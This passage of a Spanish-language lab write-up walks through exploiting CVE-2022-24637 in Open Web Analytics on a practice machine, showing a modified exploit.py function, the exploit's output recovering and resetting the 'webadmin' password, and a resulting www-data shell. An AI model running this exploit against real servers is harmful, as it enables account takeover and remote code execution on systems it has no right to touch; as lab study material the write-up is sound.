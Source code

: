 Y vemos mucha información, lo que me interesa es el campo `user_id` que es lo que se utiliza en el exploit, en este caso el valor es `webadmin`.
![Write-up Image](images/Screenshot_14.png)

Vamos a abrir el `exploit.py` y vamos a modificar la línea 71 que es donde ocurre nuestro problema y vamos a devolver directamente el valor de `webadmin`.
```python
def get_cache_username(cache):
   regex_cache_username = r'"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"(\w*)"'
   #return re.search(regex_cache_username, cache).group(1)
   return "webadmin"
```

Entonces, ahora habiendo solucionado este error y sabiendo que el usuario existente (se necesita saber el nombre del usuario para el exploit) es `webadmin`, podemos ponernos en escucha con `pwncat-cs` otra vez por el puerto 443 y lanzar el exploit.

```console
➜  CVE-2022-24637 git:(main) ✗ python3 exploit.py http://ecorp-analytics.bsh -u webadmin
[SUCCESS] Connected to "http://ecorp-analytics.bsh/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "webadmin" user
[INFO] Attempting to find cache of "webadmin" user
[INFO] Found temporary password for user "webadmin": f3576d20024cca262aeaf152a732c142
[INFO] Changed the password of "webadmin" to "OYSWS67Zay8UQz7LYWkGX2fFDQk2AmrM"
[SUCCESS] Logged in as "webadmin" user
[INFO] Creating log file
[INFO] Wrote payload to log file
```

Y ganamos acceso a la máquina víctima.
```console
(remote) www-data@analytics:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@analytics:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether e6:a4:2a:31:01:bd brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.10.10.5/24 brd 10.10.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::e4a4:2aff:fe31:1bd/64 scope link
       valid_lft forever preferred_lft forever
```
